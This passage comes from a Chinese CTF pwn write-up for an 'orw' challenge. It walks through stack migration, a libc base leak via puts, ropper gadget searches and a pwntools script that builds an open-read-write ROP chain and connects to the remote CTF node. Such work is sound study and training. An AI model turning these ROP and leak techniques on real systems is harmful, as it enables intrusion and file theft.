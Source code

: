 ​	迁移到一半,我发现它给的0x30的空间似乎还有剩下的,所以顺便把libc基址给泄露了.

​	接下来便是orw的环节.但是众所周知,orw三个函数都需要三个参数.(其实`open`可以只给两个参数)(其实题目里有现成的`put`可以利用)(但是`read`没有替代品,所以还是需要三个参数).而程序内又没有合适的gadget.所以我们使用`ropper`进行搜索.(选拔赛后看到个师傅在用ida找gadget,建议还是装个ropper,ida搜索很慢,而ropper可以一次加载整个文件,然后搜索基本就是秒出结果了)

```assembly
nefunsi@Pwn-Env:~/桌面/pwn_nss/orw$ ropper
(ropper)> file libc-2.31.so
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
(libc-2.31.so/ELF/x86_64)> search pop rsi; ret;
[INFO] Searching for gadgets: pop rsi; ret;

[INFO] File: libc-2.31.so
0x000000000002601f: pop rsi; ret; 

```

​	为了让程序看起来更简洁,同样是写个函数构造orw payload

```python
def orw_str(rdi_add,rsi_add,rdx_add,file_add,base_add,bss_add):
	return p64(rdi_add)+p64(file_add)+p64(rsi_add)+p64(0)+p64(libc.sym["open"]+base_add)+p64(rdi_add)+p64(0x3)+p64(rsi_add)+p64(bss_add)+p64(rdx_add)+p64(0x100)+p64(libc.sym["read"]+base_add)+p64(rdi_add)+p64(1)+p64(rsi_add)+p64(bss_add)+p64(rdx_add)+p64(0x100)+p64(libc.sym["write"]+base_add)

```

​	于是最终题解如下:

```python
from pwn import *
#bss:0x404000~0x405000
bss_add=0x404E00
read_add=0x4012CF
learet_add=0x4012EE
puts_add=0x401070
puts_got=0x404018
rdi_add=0x401393
#add_in_libc
rsi_add=0x2601f
rdx_add=0x142c92

def orw_str(rdi_add,rsi_add,rdx_add,file_add,base_add,bss_add):
	return p64(rdi_add)+p64(file_add)+p64(rsi_add)+p64(0)+p64(libc.sym["open"]+base_add)+p64(rdi_add)+p64(0x3)+p64(rsi_add)+p64(bss_add)+p64(rdx_add)+p64(0x100)+p64(libc.sym["read"]+base_add)+p64(rdi_add)+p64(1)+p64(rsi_add)+p64(bss_add)+p64(rdx_add)+p64(0x100)+p64(libc.sym["write"]+base_add)

#r=process("./pwn")
#gdb.attach(r)
#pause()
r=remote("node5.anna.nssctf.cn",26336)
libc=ELF("./libc-2.31.so")
context.log_level = 'debug'
context.arch = 'amd64'


payload1=b'a'*0x100+p64(bss_add+0x100)+p64(rdi_add)+p64(puts_got)+p64(puts_add)+p64(read_add)
r.sendafter("task.\n",payload1)
pause()
base_add=u64(r.recvuntil("\x7f").ljust(8,b"\x00"))-libc.sym["puts"]
print(hex(base_add))

```